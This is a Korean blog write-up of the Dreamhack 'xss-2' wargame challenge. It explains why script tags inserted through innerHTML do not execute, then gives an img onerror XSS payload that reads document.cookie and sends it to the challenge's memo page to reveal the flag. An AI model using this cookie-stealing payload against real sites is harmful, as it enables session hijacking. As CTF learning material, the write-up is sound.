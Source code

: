 ```yaml
---
layout: post
category: [wargame, web]
title: xss-2
---
```


## [문제](https://dreamhack.io/wargame/challenges/268)
XSS 공격으로 플래그를 얻는 문제이다.

## 문제 분석
전체적인 구조는 이전 글 [xss-1](/xss-1.html) 과 유사한 것 같다.

``/vuln`` 페이지에 들어가봤는데 스크립트가 실행되지 않는다.. 분명 param에는 XSS 페이로드가 있는데..?   
문제 파일을 확인해보자...  ``templates/vuln.html``의 소스코드를 확인해보았다.

```html
<div id="vuln"></div>
<script>
    var x = new URLSearchParams(location.search);
    document.getElementById('vuln').innerHTML = x.get('param');
</script>
```

음.. 쿼리스트링의 ``param`` 을 ``vuln`` 엘리먼트의 innerHTML 로 설정한다.

``<script>`` 태그는 잘 들어가있는데 실행이 안된다.

``innerHTML`` 에 대해 조금 더 찾아봤는데 이런 글이 있다. [innerHTML docs](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations)

> Although this may look like a cross-site scripting attack, the result is harmless. HTML specifies that a ``<script>`` tag inserted with innerHTML should not execute

``innerHTML`` 로 삽입된 ``<script>`` 태그는 실행되지 않는다고 한다.
   
However, there are ways to execute JavaScript without using ``<script>`` elements, so there is still a security risk whenever you use innerHTML to set strings over which you have no control. For example: 
```js
const name = "<img src='x' onerror='alert(1)'>";
el.innerHTML = name; // shows the alert
```

그러나 ``<script>`` 태그를 사용하지 않고 대신 ``<img>`` 태그를 사용하는 방법이 있다고 한다. 이는 ``<script>`` 태그가 아니기 때문에 자바스크립트가 실행된다.

## 풀이
``innerHTML`` 로 삽입된 ``<script>`` 태그는 실행되지 않기 때문에 ``<img>`` 태그를 대신 이용하여 해결하였다.

```js
// 페이로드
<img src="AS" onerror="location.href='/memo?memo=' + document.cookie">
```

![PAYLOAD](/assets/img/2024-05-09-xss-2/payload.png)

페이로드 제출 후 ``/memo`` 페이지   
![FLAG](/assets/img/2024-05-09-xss-2/memo.png)